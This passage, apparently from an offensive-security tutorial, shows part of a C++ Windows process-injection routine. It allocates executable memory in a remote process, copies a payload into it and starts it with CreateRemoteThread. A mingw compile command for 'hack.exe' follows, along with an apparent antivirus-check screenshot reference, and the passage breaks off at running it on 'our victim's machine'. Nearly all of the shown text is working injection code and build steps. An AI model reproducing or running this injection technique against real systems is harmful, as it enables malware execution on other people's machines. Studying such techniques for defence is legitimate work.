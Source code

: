 ```cpp
    // allocate memory buffer for remote process
    rb = VirtualAllocEx(ph, NULL, sizeof(my_payload), 
    (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

    // "copy" data between processes
    WriteProcessMemory(ph, rb, my_payload, 
    sizeof(my_payload), NULL);

    // our process start new thread
    rt = CreateRemoteThread(ph, NULL, 0, 
    (LPTHREAD_START_ROUTINE)rb, 
    NULL, 0, NULL);
    CloseHandle(ph);
    return 0;
  }
}
```

Let's go to compile:   
```bash
x86_64-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fdata-sections \
-Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![av 2](./images/34/2021-12-26_16-41.png){width="80%"}    

And run it in our victim's machine (`Windows 10 x64`):   
